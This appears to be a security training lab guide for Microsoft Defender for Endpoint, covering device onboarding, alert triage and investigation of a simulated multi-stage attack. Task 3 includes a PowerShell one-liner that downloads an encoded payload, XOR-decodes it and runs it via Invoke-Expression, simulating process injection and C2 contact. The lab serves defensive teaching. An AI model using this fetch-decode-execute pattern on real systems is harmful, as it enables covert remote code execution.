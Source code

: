 
# Module 4 - Lab 1 - Exercise 2 - Mitigate Attacks with Microsoft Defender for Endpoint

## Lab scenario

You are a Security Operations Analyst working at a company that is implementing Microsoft Defender for Endpoint. Your manager plans to onboard a few devices to provide insight into required changes to the Security Operations (SecOps) team response procedures.

To explore the Defender for Endpoint attack mitigation capabilities, you will run two simulated attacks.

## Lab objectives
 In this lab, you will perform the following:
- Task 1: Verify Device onboarding
- Task 2: Investigate alerts and incidents
- Task 3: Simulate an Attack
- Task 4: Investigate the simulated attack as a single incident

## Estimated timing: 60 minutes

  ![](../Media/Mod4_L1_Ex2.png)
  
### Task 1: Verify Device onboarding

In this task, you will confirm that the device is onboarded successfully and create a test alert.

1. If you're not already on the Microsoft Defender XDR portal in your Microsoft Edge browser, navigate to the [Security portal](https://security.microsoft.com), log in using **Email/Username: <inject key="AzureAdUserEmail"></inject>** and **Password: <inject key="AzureAdUserPassword"></inject>**, then select **Sign in**.

1. In the left-hand menu, under the **Assets** area, select **Devices (1)**. Please wait until a device appears **(2)** on the Devices page before you continue. Otherwise, you might need to repeat this task to see the alerts that will be generated later.

    ![Picture 1](../Media/vm1.png)

    >**Note:** If you've completed the onboarding process but no devices appear in the Devices list after an hour, there may be an issue with onboarding or connectivity.

1. Select **Settings (1)** from the left menu bar, then from the Settings page select **Endpoints (2)**.

    ![Picture 1](../Media/endpt1.png)

1. Select **Onboarding** in the Device Management section and make sure *"Windows 10 and 11"* is selected as an operating system. The *"First device onboarded"* message now shows *Completed*.

1. Scroll down and under the section *"2. Run a detection test"*, copy the detection test script by selecting the **Copy** button.  

1. In the Windows search bar of the WIN1 virtual machine, type **CMD (1)** and choose **Run as Administrator (2)** on the right pane for the Command Prompt app.

    ![Picture 1](../Media/pwrshell.png)

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run. 

1. Paste the script by right-clicking in the **Administrator: Command Prompt** windows and press **Enter** to run it.

    > **Note:** The window automatically closes once the script runs successfully, and within a few minutes, alerts will be generated in the Microsoft Defender XDR portal.

### Task 2: Investigate alerts and incidents

In this task, you will investigate the alerts and incidents generated by the onboarding detection test script in the previous task.

1. In the Microsoft Defender XDR portal select **Incidents & alerts (1)** from the left menu bar, then select **Alerts (2)**.


    ![Picture 1](../Media/incedents.png)

1. In the **Alerts** pane, select the alert named **Suspicious PowerShell commandline** to load its details.

1. Review the **Alert story** timeline, and then review the **Details** and **Recommendations** tabs.

1. Under the alert **View Alert Details** tab you can scroll down to the *Incident details* section and select the **Suspicious Powershell command line on one endpoint** link to open the incident.

1. Select the **Manage incident** link **with a pencil icon** and a new window blade appears.

    ![Picture 1](../Media/2024-07-18.png)

1. Select the toggle **Assign to** and serach for **<inject key="AzureAdUserEmail"></inject>** and add your user account (Me) as the owner of the incident.

1. Under **Classification**, expand the drop-down menu.

1. Under **Informational, expected activity**, select **Security testing**.

1. Add any comments if desired and select **Save** to update the incident and Close.

    ![Picture 1](../Media/newcop.png)

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. In a real incident, the *Attack story* tab displays the *Incident graph*. **Hint:** Some tabs might be hidden due to the size of your display. Select the ellipsis tab (...) to make them appear.

  > **Congratulations** on completing the task! Now, it's time to validate it. Here are the steps:
  > - Hit the Validate button for the corresponding task. You can proceed to the next task if you receive a success message.
  > - If not, carefully read the error message and retry the step, following the instructions in the lab guide.
  > - If you need any assistance, please contact us at labs-support@spektrasystems.com. We are available 24/7 to help you out.

  <validation step="698fed0a-fe5f-42a4-ae1c-7b77559325fc" />


### Task 3: Simulate an Attack

> **Warning:** This simulated attack provides a great hands-on learning experience. Only execute the attack as outlined in this lab when using the course-provided Azure tenant. You may explore other simulated attacks *after* completing this training course with the same tenant.

In this task, you will simulate an attack on the WIN1 virtual machine and verify that the attack is detected and mitigated by Microsoft Defender for Endpoint.

1. On the WIN1 virtual machine, *right-click* the **Start** button and choose **Windows PowerShell (Admin)**.

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run.

1. Copy and paste the following simulation script into the PowerShell window and press **Enter** to run it:

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
    $xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://raw.githubusercontent.com/MicrosoftLearning/SC-200T00A-Microsoft-Security-Operations-Analyst/refs/heads/master/Allfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} }; Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**Note:** If you encounter errors (in red) while running the script, open the Notepad app and paste the script into a blank file. Ensure that *word wrap* is enabled in Notepad. Then, copy and execute each line of the script separately in PowerShell.  
    Additionally, a PowerShell script (*attacksim.ps1*) was included in the files downloaded at the beginning of the labs. To run the script, open **Windows PowerShell (Admin)**, navigate to the *\Users\Admin\Desktop\Allfiles* folder, and enter:  

    ```powershell
    .\attacksim.ps1
    ```

   Press **Enter** to execute it.

1. The script will produce several lines of output and a message that it *Failed to resolve Domain Controllers in the domain*. A few seconds later, the *Notepad* app will open. A simulated attack code will be injected into Notepad. Keep the automatically generated Notepad instance open to experience the full scenario. The simulated attack code will attempt to communicate to an external IP address (simulating a C2 server).

### Task 4: Investigate the simulated attack as a single incident

In this task, you will investigate the simulated attack on the WIN1 virtual machine, treating it as a single incident in Microsoft Defender for Endpoint. This process will help you understand how to analyze security incidents and respond effectively.

1. In the Microsoft Defender XDR portal select **Incidents & alerts** from the left menu bar, then select **Incidents**.

1. A new incident called *Multi-stage incident involving Defense evasion & Discovery on one endpoint* is in the right pane. Select the incident name to load its details.

1. Under the *Attack story* tab, view the **Alerts** and **Incident details** panes to view the full **Incident graph**.

1. Mouse over and select the **Incident graph nodes** to review the *entities*.

1. Under the *Attack story* tab **Alerts** section (left-side) and select the **Play attack story** *Run* icon. This shows the attack timeline alert by alert and dynamically populates the *Incident graph*.

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. **Hint:** Some tabs might be hidden due to the size of your display. Select the ellipsis tab (...) to make them appear.

1. Under the **Evidence and Response** tab, select **IP addresses** then select the displayed *IP address*. In the pop-up window review the IP address details scroll down and select the **Open IP address page** button.

1. Review the contents of the *Ip address* page *Overview, Incidents & alerts and Observed in organizations* tabs. Some tabs may not contain any information about the IP address.

## Review
In this lab, you have completed the following:
- Ran Simulated Attacks
- Investigated the Attacks
- Simulated an Attack
- Investigated the simulated attack as a single incident

## You have successfully completed the lab

